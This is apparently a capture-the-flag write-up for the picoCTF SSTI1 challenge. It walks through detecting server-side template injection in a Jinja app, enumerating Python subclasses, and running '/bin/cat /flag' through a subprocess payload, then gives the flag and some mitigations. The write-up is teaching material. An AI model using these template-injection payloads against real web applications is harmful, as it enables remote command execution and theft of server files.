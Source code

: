 # 1. SSTI1

> I made a cool website where you can announce whatever you want! Try it out!\
> I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:53639/).

---

## Solution:

This challenge is an **SSTI (Server-Side Template Injection)** web exploitation challenge. The instance was launched on demand and hosted at the provided URL. The goal is to inject template expressions into the announcement input (or a similar user-controlled field) so the server evaluates them and reveals secrets (or allows command execution).

### Steps & thought process

1. **Visited the challenge URL** and looked for an input area that renders our input back to the page (e.g., an announcements field). The page likely uses a templating engine which may evaluate template expressions we supply.

   ![Challenge Page](Screenshot%202025-10-27%20232621.png)

2. **Tested for SSTI with a simple arithmetic payload** to check if input is evaluated by the template engine. For example, submitting `{{7*7}}` (Jinja-like) or `${7*7}` (other engines) in the announcement content and then refreshing the page. If the page shows `49` instead of the literal `{{7*7}}`, it’s vulnerable to SSTI.

   Example payloads to try in the announcement form or URL-parameters:
   ```jinja
   {{7*7}}
   {{'test'.upper()}}
   ```

3. **Enumerated the template engine and environment** by sending other benign payloads to identify behavior (e.g., string methods, attribute access). For Python/Jinja SSTI, more advanced probes include:
   ```jinja
   {{''.class.__mro__}}
   {{''. __class__.__mro__[1].__subclasses__()}}
   ```
   These payloads help discover Python internals and available classes which can lead to finding `subprocess.Popen` or similar to execute commands.

4. **Escalated from code execution to reading files**. Once execution is possible, common next steps are to locate file I/O or OS command execution classes and read the flag file (often `/flag` or similar) or run `cat` on a known path. Example approach (conceptual):
   ```jinja
   {{ ''.__class__.__mro__[2].__subclasses__()[40]('/bin/cat /flag', shell=True, stdout=-1).communicate() }}
   ```
   *Note: exact subclass index varies by Python version and environment; the above is an illustration of the approach.*

5. **Retrieved the flag** after successful exploitation. The challenge page then displayed the flag in the webpage (or we extracted it from command output).

---

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}
```

---

## Concepts learnt:

- **Server-Side Template Injection (SSTI)**  
  SSTI occurs when a web application unsafely includes user input inside template rendering. If the templating engine evaluates expressions from user input, attackers can execute code on the server.

- **Template engines** (Jinja2, Twig, ERB, etc.) behave differently; payloads must be tailored to the target engine's syntax and features.

- **Enumerating Python internals** via template expressions can reveal methods and classes that allow command execution (for example, locating `subprocess.Popen` through `__class__` and `__mro__`).

- **Security lesson:** never render user-supplied templates or evaluate user input inside templates. Escape/sanitize inputs and apply server-side checks.

---

## Notes:

- The instance for this challenge is typically ephemeral (on-demand). Indexes of subclasses and exact exploitation payloads vary by runtime, so trial-and-error is necessary when progressing from detection to exploitation.
- I first used lightweight probes (`{{7*7}}`, `{{'test'.upper()}}`) to confirm vulnerability before attempting more aggressive enumeration.
- Alternative mitigations to SSTI include using safe template contexts, disabling `eval`-like features, or using a sandboxed evaluation layer.

---

## Example payloads & experimentation (illustrative only)

```
# Example 1: Detection (Jinja-style)
{{7*7}}

# Example 2: String method check
{{ 'pico'.upper() }}

# Example 3: Enumerate classes (Python/Jinja)
{{ ''.__class__.__mro__[1].__subclasses__() }}

# Example 4: Conceptual (find subprocess and run cat)
# Note: indexes will differ across environments; this is conceptual pseudopayload
{{ ''.__class__.__mro__[2].__subclasses__()[index]('/bin/cat /flag', shell=True, stdout=-1).communicate() }}
```

---

## Resources:

- [OWASP: Server Side Template Injection](https://owasp.org/www-community/attacks/Server_Side_Template_Injection)  
- [Jinja2 SSTI cheat sheet (community resources)]
---
